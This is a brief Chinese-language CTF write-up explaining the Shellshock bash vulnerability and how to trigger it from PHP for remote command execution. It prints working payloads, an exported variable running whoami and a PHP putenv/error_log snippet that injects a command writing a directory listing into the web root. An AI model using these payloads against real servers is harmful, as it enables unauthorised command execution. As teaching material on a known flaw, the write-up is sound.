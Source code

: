 ## shellshock

这里是php破壳 rce

在bash 4.x存在命令执行漏洞

我们首先看看原型

我们首先了解一下bash

```php
bash 允许自定义函数 并且使用函数名调用函数
 
例如
 
function test(){
echo "this is test";
}
 
test #调用这个函数
 
#输出 this is test
```

我们看看bash存的内容是什么

```cobol
KEY = test
VALUE = () { echo "this is test"; }
```

那我们修改为恶意代码呢

```cobol
export ShellShock='() { :; }; echo;/usr/bin/whoami'
bash
>root
 
这里为什么呢 
 
KEY = ShellShock
VALUE = '(){:;}; echo; /user/bin/whoami'
```

这样 如果我们执行了bash  ShellShock就会作为环境变量直接执行

下面的value 就会被作为一整句代码 执行 这样就绕过了

所以这个题目我们可以写一个php设置环境变量

```cobol
<?php
putenv("PHP_ABC=() { :; }; ls / > /var/www/html/flag.txt");
error_log("",1,"","");
?>
 
这里
 
KEY=PHP_ABC
VALUE= (){:;};ls / > /var/www/html/flag.txt
```
